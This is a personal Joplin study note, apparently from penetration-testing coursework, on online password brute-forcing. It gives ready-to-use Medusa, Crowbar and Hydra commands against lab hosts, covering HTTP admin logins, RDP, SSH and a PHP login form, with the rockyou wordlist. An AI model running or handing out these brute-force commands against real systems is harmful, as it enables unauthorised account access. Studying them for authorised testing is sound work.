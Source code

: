 Medusa and Hydra

See 4. Hash cracking ==> Cracking Hashes Online

Online Tools: THC-Hydra, Medusa, Crowbar, spray

# Medusa

HTTP webpage 

> medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

/admin is the admin page to attempt login

# Crowbar

SSH/RDP NetAuth cracking tool

> crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1

# THC-HYDRA

NetSvc attack tool under active development

> hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1

![e99bfed9897e28f1d7031762fe80992d.png](:/7dc158c53150404691d585f2d2774e1f)

If attempting to attack a PHP page, you can state the error page look when there is an error in the login

![3c739789569b55407f30a4d1a2169139.png](:/f6cbf1a686c447a3ae5245df47ddda87)

> hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlist/rockyou.txt -vV -f

id: afabacff6a3448889b207ee5924e27c5
parent_id: 22a608ee6b1541b18a43693af32a3f50
created_time: 2022-01-16T07:57:58.410Z
updated_time: 2022-01-30T10:11:53.231Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-16T07:57:58.410Z
user_updated_time: 2022-01-30T10:11:53.231Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1